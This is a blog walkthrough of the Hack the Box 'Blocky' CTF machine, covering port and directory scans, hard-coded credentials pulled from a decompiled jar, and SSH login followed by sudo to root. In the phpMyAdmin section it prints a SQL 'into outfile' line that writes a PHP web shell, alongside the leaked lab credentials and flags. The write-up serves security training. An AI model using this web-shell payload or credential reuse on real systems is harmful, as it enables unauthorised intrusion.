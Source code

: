 ```yaml
---
title: Blocky, Hack the Box CTF Walkthrough
description: 
tag: CTF
style: blog3
image: /assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blocky.png
layout: post
description: "Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by Arrexel and consists of a linux machine configured as a Minecraft and wordpress server"
date:   2021-03-29 20:01:21 -0400
last-updated: 2021-03-29 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Using the Java Decompiler to Analyze Source Code"
card: card-2
navheader: posts
---
```


<button class="btn btn-sm" onclick="setTerm()" >setTerm</button>

Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by [Arrexel](https://app.hackthebox.eu/users/2904), the challenge consists of a linux machine configured as a Minecraft and wordpress server. It is easy to get carried away on this challenge, especially with poking at the wordpress and minecraft server, but once the user is compromised, escalation to root is trivial. My biggest takeaway from this CTF is to expand my basic directory brute force strategy to gaurentee a greater chance of discovery. 

## Major Takeaway's 
1) Don't reply on a simple `dirb` scan to brute force server directories   
2) Ensure to test username/password pairs on multiple services 


# Basic Enumeration 

To start, I used a simple <kbd>nmap</kbd> scan to look for running services and open ports. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sV -A -O -p- 10.10.10.37                                                                                                                                     1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 14:31 EDT
Nmap scan report for 10.10.10.37
Host is up (0.029s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   31.60 ms 10.10.14.1
2   31.65 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.01 seconds
```

The resulting scan shows several running processes. I did some basic research on each service version to check for known vulnerabilities. At first, it seemed that the ProFTPD server might be vulnerable to the `mod_copy` exploit described in CVE-2015-3306. After trying a couple different PoC exploits, the target did not seem vulnerable so I moved on. Using `gobuster`, I searched for directories on the host. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.10.37 -w /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/30 14:42:00 Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/] 
```

The resulting output indicated the /plugins directory, which when browsed, showed a custom plugin called BlockCore.jar. I downloaded the file and used the java decompiler tool `jd-gui` to inspect the classes. The class blockycore uses a hard-coded username and password, root:8YsqfCTnvxAUeduzjNSXe22.


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blockycore.png">
    </div>
</div>
<br/>  


# Compromise User

With a pair of found credentials, I attempted to access the wordpress site with no luck. Eventually I found that I could use the credentials to log into the phpmyadmin instance. As administrator of phpmyadmin, I was sure I could pivot to gain access to the machine. I attempted to create a new user account for the wordpress site, change the current "notch" user's password, and even upload a reverse shell using direct sql commands. None of these options worked, however a technique I came across described by Ryan Trost in the book "Practical Intrusion Analysis: Prevention and Detection for the Twenty-First Century: Prevention and Detection for the Twenty-First Century" was fairly interesting. It involves injecting  SQL command to insert a backdoor php file, 

```SQL
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/var/www/html/cmd.php”;
``` 

In this instance, this method was blocked by insufficient file permissions, but I will be sure to consider this on future challenges. Ultimately, I was able to get root by attempting to log into the ssh service with the notch user and the admin credentials found in the jar file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ 
```
## User Flag

```bash
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$ 
```

## Compromise Root 

I instinctively tried to sudo to root, and was suprised when the notch user had permissions to do so. As root, I read the final flag. 

```bash
notch@Blocky:~$ sudo su root
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
root@Blocky:/home/notch# cat ../../root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch# 
```